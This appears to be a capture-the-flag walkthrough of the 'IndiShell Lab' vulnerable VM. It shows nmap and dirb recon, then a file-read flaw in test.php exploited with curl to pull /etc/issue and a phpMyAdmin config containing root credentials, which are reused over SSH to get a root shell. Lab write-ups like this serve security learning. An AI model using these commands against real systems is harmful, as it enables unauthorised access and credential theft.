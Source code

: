 ###### Recon Phase:

`$ nmap -p 1-65535 -T4 -A -v 192.168.190.133` 
    

> PORT   STATE SERVICE VERSION<br />
>     22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.4 (Ubuntu Linux; protocol 2.0)<br />
>     | ssh-hostkey:<br />
>     |   1024 fa:cf:a2:52:c4:fa:f5:75:a7:e2:bd:60:83:3e:7b:de (DSA)<br />
>     |   2048 88:31:0c:78:98:80:ef:33:fa:26:22:ed:d0:9b:ba:f8 (RSA)<br />
>     |_  256 0e:5e:33:03:50:c9:1e:b3:e7:51:39:a4:4a:10:64:ca (ECDSA)<br />
>     80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))<br />
>     | http-methods:<br />
>     |_  Supported Methods: GET HEAD POST OPTIONS<br />
>     |_http-server-header: Apache/2.2.22 (Ubuntu)<br />
>     |_http-title: --==[[IndiShell Lab]]==--<br />

`$ dirb http://192.168.190.133 /usr/share/wordlists/dirb/big.txt`<br />
There is phpmyadmin in /phpmy/

----------
###### Attacking Phase:



I saw /test.php that reads a parameter called file so i passed it using curl <br />
`$ curl -X POST -F 'file=/etc/issue' http://192.168.190.133/test.php`<br />
>    Ubuntu 12.04.5 LTS \n \l <br />

Then i tried to extract phpmyadmin's config file<br />
`$ curl -X POST -F 'file=/var/www/phpmy/config.inc.php' http://192.168.190.133/test.php`<br />

    <?php
    /* Servers configuration */
    $i = 0;

    /* Server: localhost [1] */
    $i++;
    $cfg['Servers'][$i]['verbose'] = 'localhost';
    $cfg['Servers'][$i]['host'] = 'localhost';
    $cfg['Servers'][$i]['port'] = '';
    $cfg['Servers'][$i]['socket'] = '';
    $cfg['Servers'][$i]['connect_type'] = 'tcp';
    $cfg['Servers'][$i]['extension'] = 'mysqli';
    $cfg['Servers'][$i]['auth_type'] = 'cookie';
    $cfg['Servers'][$i]['user'] = 'root';
    $cfg['Servers'][$i]['password'] = 'roottoor';
    $cfg['Servers'][$i]['AllowNoPassword'] = true;

    /* End of servers configuration */

    $cfg['DefaultLang'] = 'en-utf-8';
    $cfg['ServerDefault'] = 1;
    $cfg['UploadDir'] = '';
    $cfg['SaveDir'] = '';


    /* rajk - for blobstreaming */
    $cfg['Servers'][$i]['bs_garbage_threshold'] = 50;
    $cfg['Servers'][$i]['bs_repository_threshold'] = '32M';
    $cfg['Servers'][$i]['bs_temp_blob_timeout'] = 600;
    $cfg['Servers'][$i]['bs_temp_log_threshold'] = '32M';
    ?>

so i tried to access with username : root, password : roottoor and i failed then i treid ssh<br />
`$ ssh root@192.168.190.133`<br />

    Welcome to Ubuntu 12.04.5 LTS (GNU/Linux 3.13.0-32-generic i686)
     * Documentation:  https://help.ubuntu.com/

      System information as of Mon May 22 01:41:39 IST 2017

      System load:  0.0               Processes:           107
      Usage of /:   12.1% of 9.61GB   Users logged in:     0
      Memory usage: 11%               IP address for eth0: 192.168.190.133
      Swap usage:   0%

      Graph this data and manage this system at:
        https://landscape.canonical.com/

    New release '14.04.5 LTS' available.
    Run 'do-release-upgrade' to upgrade to it.


    Your Hardware Enablement Stack (HWE) is supported until April 2017.
`$ id`<br />
 >   uid=0(root) gid=0(root) groups=0(root)
----------



